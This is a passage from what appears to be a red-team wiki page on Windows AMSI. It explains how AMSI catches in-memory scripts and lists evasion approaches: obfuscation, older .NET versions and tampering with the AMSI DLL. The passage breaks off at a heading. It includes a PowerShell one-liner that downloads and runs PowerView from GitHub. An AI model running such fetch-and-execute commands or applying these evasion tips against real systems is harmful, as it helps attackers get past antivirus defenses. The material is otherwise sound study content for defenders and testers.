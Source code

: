 It allows antivirus solutions to inspect script behavior by exposing script contents in a form that is both unencrypted and unobfuscated.

Running `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` will produce the following alert on Windows Defender.

<figure><img src="../images/image (1135).png" alt=""><figcaption></figcaption></figure>

Notice how it prepends `amsi:` and then the path to the executable from which the script ran, in this case, powershell.exe

We didn't drop any file to disk, but still got caught in-memory because of AMSI.

Moreover, starting with **.NET 4.8**, C# code is run through AMSI as well. This even affects `Assembly.Load(byte[])` to load in-memory execution. Thats why using lower versions of .NET (like 4.7.2 or below) is recommended for in-memory execution if you want to evade AMSI.

There are a couple of ways to get around AMSI:

- **Obfuscation**

Since AMSI mainly works with static detections, therefore, modifying the scripts you try to load can be a good way for evading detection.

However, AMSI has the capability of unobfuscating scripts even if it has multiple layers, so obfuscation could be a bad option depending on how it's done. This makes it not-so-straightforward to evade. Although, sometimes, all you need to do is change a couple of variable names and you'll be good, so it depends on how much something has been flagged.

- **AMSI Bypass**

Since AMSI is implemented by loading a DLL into the powershell (also cscript.exe, wscript.exe, etc.) process, it's possible to tamper with it easily even running as an unprivileged user. Due to this flaw in the implementation of AMSI, researchers have found multiple ways to evade AMSI scanning.

**Forcing an Error**
